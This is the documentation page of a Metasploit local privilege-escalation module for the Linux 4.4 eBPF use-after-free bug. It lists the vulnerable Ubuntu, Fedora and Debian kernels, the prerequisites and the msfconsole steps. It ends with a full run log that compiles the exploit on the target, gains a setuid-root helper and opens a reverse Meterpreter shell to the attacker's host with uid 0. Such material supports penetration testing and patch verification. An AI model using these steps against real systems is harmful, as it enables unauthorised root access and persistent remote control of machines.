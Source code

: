 ## Notes

  Linux kernel 4.4 < 4.5.5 extended Berkeley Packet Filter (eBPF)
  does not properly reference count file descriptors, resulting
  in a use-after-free, which can be abused to escalate privileges.

  The target system must be compiled with `CONFIG_BPF_SYSCALL`
  and must not have `kernel.unprivileged_bpf_disabled` set to 1.

  Note, this module will overwrite the first few lines
  of `/etc/crontab` with a new cron job. The job will
  need to be manually removed.


## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu 16.04 (x64) kernel 4.4.0-21-generic (default kernel)

  This module was not tested against, but may work against:

  * Fedora 24 < [kernel-4.5.4-300.fc24](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 23 < [kernel-4.5.5-201.fc23](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 22 < [kernel-4.4.10-200.fc22](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Debian >= 4.4~rc4-1~exp1, < Fixed in version [4.5.3-1](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=82
  * Ubuntu 14.04.1 <= [4.4.0-22.39](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1578705/comments/3)


## Creating A Testing Environment

There are a few requirements for this module to work:

  1. `CONFIG_BPF_SYSCALL=y` must be set in the kernel (default on Ubuntu 16.04)
  2. `kernel.unprivileged_bpf_disabled` can't be set to `1` (default on Ubuntu 16.04)
  3. fuse needs to be installed (non-default on Ubuntu 16.04)
  
  Using Ubuntu 16.04, simply `sudo apt-get install fuse` and you're all set!

  The `libfuse-dev` package must be installed to test live-compiling on the target:

  `apt-get install libfuse-dev=2.9.4-1ubuntu3.1`


## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_priv_esc
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

### MAXWAIT

  The first stage of this priv esc can take ~35 seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to `120` (seconds)

### WritableDir

  A folder we can write files to.  Defaults to `/tmp`

### COMPILE
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`


## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-21-generic)

In this scenario, gcc and libfuse-dev are both installed so we can live compile on the system.

  ```
  msf > use exploit/linux/local/bpf_priv_esc 
  msf exploit(linux/local/bpf_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/bpf_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/bpf_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/bpf_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 4.4.0-21-generic appears to be vulnerable
  [+] fuse package is installed
  [+] /tmp/fuse_mount doesn't exist
  [+] Kernel config has CONFIG_BPF_SYSCALL enabled
  [+] Unprivileged BPF loading is permitted
  [+] libfuse-dev is installed
  [+] gcc is installed
  [+] pkg-config is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/hello.c' (2682 bytes) ...
  [*] Writing '/tmp/doubleput.c' (5168 bytes) ...
  [*] Writing '/tmp/suidhelper.c' (333 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.FVfiRBKRDX7r' (285 bytes) ...
  [*] Launching exploit. This may take up to 120 seconds.
  [+] Success! set-uid root /tmp/suidhelper
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (861348 bytes) to 172.16.191.141
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.141:34804) at 2018-12-15 00:20:04 -0500
  [+] Deleted /tmp/hello.c
  [+] Deleted /tmp/hello
  [+] Deleted /tmp/doubleput.c
  [+] Deleted /tmp/doubleput
  [+] Deleted /tmp/suidhelper.c
  [+] Deleted /tmp/.FVfiRBKRDX7r
  [+] Deleted /tmp/fuse_mount
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.141
  OS           : Ubuntu 16.04 (Linux 4.4.0-21-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

